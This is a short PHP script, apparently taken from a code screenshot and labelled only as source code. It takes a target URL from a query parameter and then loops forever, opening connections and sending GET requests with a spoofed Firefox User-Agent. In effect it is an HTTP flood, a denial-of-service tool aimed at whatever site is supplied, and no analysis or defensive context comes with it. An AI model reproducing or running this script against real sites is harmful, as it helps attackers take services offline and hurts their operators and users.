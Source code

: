 echo 'running';
$url = $_GET['url'];
$parsed_url = parse($url);
$host = $parsed_url['host'];
$path = $parsed_url['path'];

if ($path == "")
        $path = "/";
      
while(1)
{
        $sock = fsockopen($host, 80);
        $pack = "GET $path HTTP/1.1\r\n";
        $pack.= "Host: " .$host. "\r\n";
        $pack.= "User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\n";
        $pack.= "Accept: */*\r\n";
        $pack.= "Accept-Language: en-US,en;q=0.5\r\n";
        $pack.= "Connection: closed\r\n\r\n";
        fputs($sock, $pack);
        fclose($sock);
}

function parse($url){
    if(strpos($url,"://")===false) $url = "http://".$url;
    $info = parse_url($url);
    return $info;
}
